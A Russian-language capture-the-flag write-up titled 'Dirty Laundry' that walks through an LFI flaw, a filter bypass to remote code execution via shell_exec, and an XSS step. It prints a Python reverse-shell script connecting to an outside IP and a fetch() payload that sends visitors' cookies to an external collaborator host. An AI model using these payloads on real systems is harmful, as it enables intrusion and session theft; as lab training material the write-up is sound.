 # Dirty Laundry writeup

Дан сайт-фасад. 

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image.png)

В исходном коде одного из скриптов обнаруживаем вызов JS файла из сторонней директории:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%201.png)

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%202.png)

Перейдем в корень директории и увидим листинг файлов:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%203.png)

Идем в myProject:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%204.png)

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%205.png)

Исследуем параметр work. В нем LFI-уязвимость:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%206.png)

Посмотрим код текущей страницы:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%207.png)

Видим опасную функцию shell_exec, обходим фильтр и получаем RCE:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%208.png)

Поисследуем фильтрацию и получим reverse shell. Учитывая фильтрующие символы, подойдет пейлоад на python. Будем писать в директорию tmp, так как у пользователя есть права создания файлов в эту директорию (Sticky bit)

```bash
echo "import os,pty,socket" > /tmp/rev     
echo "s=socket.socket()" >> /tmp/rev
echo 's.connect(("147.45.143.202",1337))' >> /tmp/rev
echo '[os.dup2(s.fileno(),f)for f in(0,1,2)]' >> /tmp/rev
echo 'pty.spawn("/bin/bash")' >> /tmp/rev
```

Поднимаем слушатель и ловим шелл:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%209.png)

Готово:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%2010.png)

Как развивать атаку? Тема посвящена XSS, и по условию известно, что клиент заходит на начальную страницу сайта. Мы можем подложить вредоносный код в скрипт, через который мы попали в скрытую директорию.

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%2011.png)

Подставим CORS-промис, крадущий куки пользователя:

```bash
fetch('http://zhkn0l0y840fgmzsn5022l3tskybm7aw.oastify.com?c='+document.cookie)
```

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%2012.png)

Осталось подождать, пока жертва попадется на крючок:

![image.png](Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900/image%2013.png)

Профит! :)